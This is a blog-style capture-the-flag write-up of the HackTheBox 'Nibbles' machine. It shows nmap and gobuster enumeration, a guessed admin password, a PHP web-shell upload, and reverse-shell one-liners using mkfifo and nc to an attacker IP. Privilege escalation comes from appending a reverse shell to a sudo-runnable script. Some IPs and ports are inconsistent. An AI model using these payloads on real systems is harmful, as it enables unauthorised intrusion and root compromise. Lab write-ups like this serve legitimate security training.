 ```yaml
---
title: HackTheBox - Nibbles 
date: 2022-10-02
categories: [HackTheBox, Machine]
tags: [gobuster, cewl]
---
```


# Introduction

Let's walk through the box **Nibbles**, an easy-rated Linux box that showcases common enumeration tactics, basic web application exploitation, and a file-related misconfiguration to escalate privileges.

>For this writeup I will say that the IP adresses are the following:
>
> - **attack machine** is `10.10.10.1`
>
> - **target machine** is `10.10.10.2`
{: .prompt-warning }

# Enumeration

Firstly let's do some basic enumeration with nmap.
We will begin with a simple quick scan to discover common open ports and service versions:

````bash
nmap -sV --open 10.10.10.2
````

We quickly see two open ports:

````bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````

Let's start another scan, a full one this time, to be sure to not miss any unusual port:

````
nmap -sV -p- 10.10.10.2
````

While the full scan is running we can check the two known open ports with the defaults nmap scripts:

````
nmap -sC -p 22,80 10.10.10.2
````

Unfortunatly the full scan and the script scan didn't finish with something useful for us. Now let's look at the web server we found.

## Web Enumeration

When we open firefox on the address there is just one message displayed: Hello world!

Checking the page source reveal an interesting comment:

````html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
````

A simple web research on **Nibbleblog** shows that it's a PHP based blog engine with a well know File Upload Vulnerability which allows an authenticated attacker to upload and execute PHP code on the server. We still don't know yey which version on Nibbleblog is running this server but it's still something good to know.

Now it's time to use gobuster to discover hidden directories:

````bash
gobuster dir -w /path/to/wordlist/common.txt -u 10.10.10.2
````

Nothing interesting with this scan. Let's try now to add the directory found in the html comment:

````bash
gobuster dir -w /path/to/wordlist/common.txt -u 10.10.10.2/nibbleblog/
==========================================================================
/.hta                 (Status: 403) [Size: 302]
/.htaccess            (Status: 403) [Size: 307]
/.htpasswd            (Status: 403) [Size: 307]
/admin                (Status: 301) [Size: 323] [--> http://10.10.10.2/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]                                           
/content              (Status: 301) [Size: 325] [--> http://10.10.10.2/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]                                             
/languages            (Status: 301) [Size: 327] [--> http://10.10.10.2/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 325] [--> http://10.10.10.2/nibbleblog/plugins/]  
/README               (Status: 200) [Size: 4628]                                               
/themes               (Status: 301) [Size: 324] [--> http://10.10.10.2/nibbleblog/themes/]  
````

Many directories found here!

After looking at each here are the interesting ones for now:

- admin/    -> Many files here
- admin.php -> login form
- content/  ->
- README/ -> confirm the vulnerable version

Can't bruteforce login -> error message to blacklist us

In /content/private we find user.xml containing the admin user and we can see some blacklisted addresses

Nothing seems to leak the password. Finding the word nibbles in many files is worth giving it a try with the admin user.

Bingo!

Not easy to guess a password like that. HackTheBox advices us to use tools such as [CeWL](https://github.com/digininja/CeWL) to create custom generated wordlist based on a website.

# Initial Foothold

Now we are logged as admin let's take time to walk the administration panel.
Attempting to make a new page and embed code or upload files does not seem like the path. Let us check out the plugins page.

On the configuration page of the My image plugin we can see an upload form. Here we will try to send some PHP code to the server:

Firstly let's try to print the id command by savin the below code into a test.php file and uploading it:

````php
<?php system('id'); ?>
````

Now if we cURL the good URL:

````bash
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
````

- now let's upload a reverse shell, inspired by payloadallthethings: <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
- setup the nc listener : nc -lvnp 9443
- add python3 -c 'import pty; pty.spawn("/bin/bash")' to upgrade the shell
- listing files shows user.txt and personal.zip

> here is the user flag !

# Privilege Escalation

- unzip the zip and see a monitor.sh
- let's move linpeas.sh to the victim machine
- python -m http.server 8000
- wget 10.10.10.1:8000/linpeas.sh
- chmod +x linpeas.sh
- ./linpeas.sh
- The nibbler user can run the monitor.sh file with root privs and us we can modify the content! So we will append a reverse shell cmd to the end of the file to get root access
- echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
- nc -lvnp 4445
- sudo monitor.sh

> Here is the root flag !
